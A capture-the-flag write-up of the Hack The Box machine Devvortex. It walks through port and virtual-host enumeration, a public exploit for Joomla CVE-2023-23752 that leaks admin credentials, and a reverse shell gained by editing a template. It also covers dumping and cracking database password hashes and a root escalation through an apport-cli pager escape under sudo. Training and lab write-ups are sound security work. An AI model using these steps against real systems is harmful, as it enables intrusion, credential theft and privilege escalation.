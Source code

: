 ```yaml
---
title: HTB Devvortex Writeup
author: Elus1nist
layout: post
date: 12 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/2565d292772abc4a2d774117cf4d36ff.png
---
```

Welcome! This is my writeup of the Season 3 Easy machine from HTB, Devvortex. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.242
```
This gives us the scan results of:
```sh
Nmap scan report for 10.10.11.242
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `devvortex.htb` (add to `/etc/hosts` file)

---
---
## Enumerating HTTP

Once we add to our hosts file we can visit the HTTP webpage and see the following:

<img src="{{- 'writeup_images/Devvortex/devvortex_Webpage.png' | relative_url}}" >

Seeing nothing right off the bat, we can go ahead with some VHost Fuzzing

---
---
## Fuzzing

```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://devvortex.htb/ -H 'Host: FUZZ.devvortex.htb' -fs xxx
```
Fuzzing reveals an additional VHost - `dev.devvortex.htb`. We also add this to `/etc/hosts`

We can now do a directory bruteforce for this VHOST using feroxbuster:
```sh
feroxbuster --url http://dev.devvortex.htb/ --filter-status 404
```
This reveals a directory of `/administrator`

Visiting shows us a Joomla Application:
<img src="{{- 'writeup_images/Devvortex/devvortex_Joomla.png' | relative_url}}" >

---
---
## Joomla Exploitation

Doing a quick enumeration with joomscan we see a Joomla Version 4.2.6

A quick google directs us to - [Joomla Credential Dump CVE-2023-23752](https://github.com/Acceis/exploit-CVE-2023-23752)

Exploiting with:
```sh
ruby exploit.rb http://dev.devvortex.htb/
```
`lewis:P4ntherg0t1n5r3c0n##`

After logging in with these admin credentials we can modify error.php and gain a reverse shell as `www-data`

---
---
## Pivoting for user flag

Once in as `www-data` we can see a mysql account. Logging is using lewis credentials:
```sh
mysql -h localhost -u lewis -p'P4ntherg0t1n5r3c0n##'
```

This allows us to dump the table from `joomla\sd4fg_users`:
```mysql
use joomla;
select * from sd4fg_users;
```
Table dump shows:

| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
|-----|------------|----------|---------------------|--------------------------------------------------------------|-------|-----------|---------------------|---------------------|------------|---------------------------------------------------------------------------------------------------------------------------------------------------------|---------------|------------|--------|------|--------------|--------------|
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-29 13:08:02 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |

Cracking the password for user logan using hashcat we getcredentials:
`logan:tequieromucho`

---
---
## SSH Login

We can then login to ssh using the credentials for logan and pick up the user.txt flag

---
---
## Privilege Escalation

With a simple `sudo -l` command we can see that user logan can run the following with root priveleges

```
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

Utilizing an older CVE we can load a crash file with apport and with the pager, gain command access.

```sh
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_apport-cli.0.crash
```

Once loaded we can pres the `V` key and use `!/bin/bash` to gain root shell.